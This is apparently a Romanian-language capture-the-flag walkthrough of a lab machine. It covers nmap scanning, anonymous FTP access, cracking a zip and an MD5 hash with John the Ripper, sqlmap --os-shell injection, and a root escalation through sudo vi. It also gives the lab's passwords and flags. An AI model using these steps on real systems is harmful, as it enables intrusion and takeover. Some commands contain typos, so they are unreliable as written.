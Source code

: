 1. Besides SSH and HTTP, what other service is hosted on this box?
Trebuie sa facem o scanare simpla cu [[nmap]]:
![[vaccine_nmap_sS]] Mai sus putem vedea fisierul  complect cu toata informatia care ne  fost returnata de [[nmap]] 
```bash 
sudo namp -sSCV -T4 <IP> -oN vaccine_nmap_sS
```
![[Pasted image 20230912112623.png]]
Raspunslul este `ftp`
2. This service can be configured to allow login with any password for specific username. What is that username?
Acum trebuei sa gasim care este utilizatorul care ne va permite sa ne logam anonim acesta este `anonymous` De unde stiu am mai facut unele boxuri unde am avut nevoie de utilizatorul dat.
Acum trebuie sa ne logam pe serviciul nostru putem face asta cu [[ftp]]:
```bash
ftp ftp://anonymous:@<IP>
```
Intre `:` si `@` trebuie sa fie password-ul dar `anonymous` nu are parola.
![[Pasted image 20230912113258.png]]
3. What is the name of the file downloaded over this service?
Cand suntem logati pe serviciul nostru trebui sa vedem ce se afla pe el. Putem face asta cu un singur [[ls]]:
![[Pasted image 20230912113409.png]]
Vedem ca este un fisier care este `backup.zip` care si pe urma a fost scos de pe masina noastra cu un `get <file>`
Raspunsul `backup.zip`
4. What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?
Deci aici avem nevoie de [[john]] dar nu stiu de care script merge vorba. 
Aici era nu eram departe dar scriptul este [[zip2john]] din care si putem scoate hasul pentru fisierele `zip` in felul urmator:
```bash
sudo zip2john <file.zip> > hash.<file.zip>.txt
```
![[hash.txt]]
Mai sus este fisierul in care este hash-ul:
Acum avem hash-ul pe care trebui sal spargem:
```bash 
sudo john -w /usr/share/wordlist/rockyou.txt --format=pkzip hash.txt
```
![[Pasted image 20230912114754.png]]
Avem si parola aici `741852963`
5. What is the password for the admin user on the website?
Din arhiva care am pututo so scot am 2 fisiere `index.php, style.css` nu cred ca o sa fie ceva interesant in `style.css` dar in `index.php` tot ce e posibil:
![[Pasted image 20230912114917.png]]
`2cb42f8734ea607eefed3b70af13bbd3`
Asa si este vedem o secventa de cod care are si parola dar care este reprezintata in `hash` de tip [[md5]] dar [[john]] se va descurca si cu asta:
```bash 
sudo john -w /ush/share/wordlists/rockyou.txt --format=raw-md5 admin_hash.txt
```

# Astep raspunsul de la masina:::::

Putem sa folosim si alta metoda care este mai simpla dar nu destul de ificienta:
![[Pasted image 20230912120500.png]]
Hostul: https://crackstation.net/  ne permite spargerea hasurilor slabe.
Raspunsul este `qwerty789`
6. What option can be passed to sqlmap to try to get command execution via the sql injection?
Avem nevoie sa facem doar un `--help` la [[sqlmap]] pentru avedea care este optiunea:
``` bash
sudo sqlmap -u http://10.129.79.165/dashboard.php?search= --cookie="PHPSESSID=epa06d0f28j4380mbghqveqglg" --os-shell
```
![[Pasted image 20230912130001.png]]
Raspunsul este `--os-shell`
7. What program can the postgres user run as root using sudo?
Pentru a rula comanda `sudo -l` avem nevoie de creditiale dar unde ele sunt acolo unde am fost de vreo 3 ori dar nu am vazut nimic. Cine e maladet eu.
![[Pasted image 20230912140611.png]]
Acum rulam comanda [[sudo]]
```bash 
echo "P@s5w0rd!" | sudo -S -U postgres -l 
```
![[Pasted image 20230912141022.png]]
Raspunsul este `vi`
8. Submit user flag
Nu stiu unde este flagul pentru user deci am decis sal caut:
```bash 
find / -type f -name "user.txt" 2>/dev/null
```
![[Pasted image 20230925112125.png]]
Flagul este `ec9b13ca4d6229cd5cc1e09980965bf7`
![[Pasted image 20230925112406.png]]
10. Submit root flag
Pentru a prim privile mai mare putem rula [[vi]] cu fisierul care putem sal modificam 
la departe 
`Esc`
`!/bin/bash`
Deci am primit acesul de root.
![[Pasted image 20230925111343.png]]
Flagul este `dd6e058e814260bc70e9bbdef2715849`
